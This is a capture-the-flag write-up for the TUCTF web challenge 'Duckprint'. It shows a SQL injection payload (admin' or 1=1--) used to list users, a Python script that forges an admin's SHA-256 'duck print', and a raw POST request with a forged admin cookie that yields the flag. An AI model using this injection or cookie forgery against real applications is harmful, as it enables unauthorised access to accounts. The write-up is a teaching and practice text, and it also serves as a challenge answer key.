 # Duckprint (Web, 100pts)

See if you can steal the admin's duck print and validate it!

When calculating the SHA, leave the periods in

http://130.211.242.26:31337


## Solution

We get simple web application, where we can register user and generate something called "Duck print" (hash calculated from couple of values). There's also validation of "Duck print", but only admin user is allowed.

![Duckprint]
(assets/dp2.png)

After registering a user, Duck print is generated with some additional factors (cookie, token, admin flag):

![Duckprint]
(assets/dp3.png)

Also, in _generate.php_ source code there's a comment with SQL query, where we can find easy to exploit SQL Injection flaw ($username is used without any sanitization):

```
<label for='username' >Username:</label>
<!-- $query = "SELECT * FROM users WHERE username ='" . $username . "'"; -->
<input type='text' name='username' id='username' maxlength="50" />
<input type='submit' name='Submit' value='Submit' />
```
Using one of the basics SQL Injection payloads as username in _register.php_, there's a long list of many interesting usernames used by other teams to solve this challenge:

```
admin' or 1=1-- 
```

Result:

![Duckprint]
(assets/dp1.png)


First one looks very interesting as it's only one with admin flag set to '1':

```
DuckDuckGoose:1:d4rkw1ng
```

I've created quick Python tool to generate valid Duck print for DuckDuckGoose user using all required parts (token _d4rkw1ng_ from line above, cookie in expected format and _DuckDuckGoose_ as username)

```Python
#!/usr/bin/python
import base64
import hashlib

# Generate SHA:
# sha256(b64(username) + "." + b64(cookie) + "." + b64(token))

username = "DuckDuckGoose"
token = "d4rkw1ng"
cookie = '{"username":"DuckDuckGoose","admin":1}'

print hashlib.sha256(base64.b64encode(username) + "." + base64.b64encode(
    cookie) + "." + base64.b64encode(token)).hexdigest()

# Result: d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d

```

Then, using generated Duck print and cookie for DuckDuckGoose, which was the only user with access to _validate.php_ page, I was able to create final request:

```
POST /validate.php HTTP/1.1
Host: 130.211.242.26:31337
Content-Length: 100
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://130.211.242.26:31337
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://130.211.242.26:31337/validate.php
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.8,en-US;q=0.6,en;q=0.4
Cookie: duck_cookie=%7B%22username%22%3A%22DuckDuckGoose%22%2C%22admin%22%3A1%7D
Connection: close

submitted=1&duckprint=d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d&submit=Submit
```

and get the flag:

TUCTF{Quacky_McQuackerface}

![Duckprint]
(assets/dp4.png)